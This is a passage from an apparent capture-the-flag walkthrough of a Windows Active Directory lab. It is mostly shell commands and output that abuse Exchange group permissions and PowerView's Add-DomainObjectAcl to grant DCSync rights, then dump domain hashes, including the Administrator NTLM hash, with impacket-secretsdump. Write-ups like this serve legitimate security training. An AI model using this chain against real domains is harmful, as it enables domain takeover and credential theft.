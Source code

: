 
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net group | findstr "*Exchange Windows Permissions"
*Exchange Servers
*Exchange Trusted Subsystem
*Exchange Windows Permissions
*ExchangeLegacyInterop

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net group "Exchange Windows Permissions" wxrdcn /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> net user wxrdcn | findstr "Exchange Windows Permissions"
Global Group memberships     *Exchange Windows Perm*Domain Users
```

I import powerview to the machine

```
$ cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 .

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> upload PowerView.ps1 
Info: Uploading /home/linux/Desktop/forest/content/PowerView.ps1 to C:\Users\svc-alfresco\Desktop\bh\PowerView.ps1

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> . .\PowerView.ps1
```

Then following the guide that bloodhound shows I'll abuse the write dacl permission

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> $SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> $Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\wxrdcn', $SecPassword)

```

the last part gives a bit of a problem to solve it is just define the dc as "DC=htb,DC=local" and the parameter PrincipalIdentity user to define the user that will receive this privilege

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\bh> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity wxrdcn -Right
s DCSync
```

after doing this now I can retrieve the hashes of other users such as administrator

```
$ impacket-secretsdump htb.local/wxrdcn:password123@10.10.10.161
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
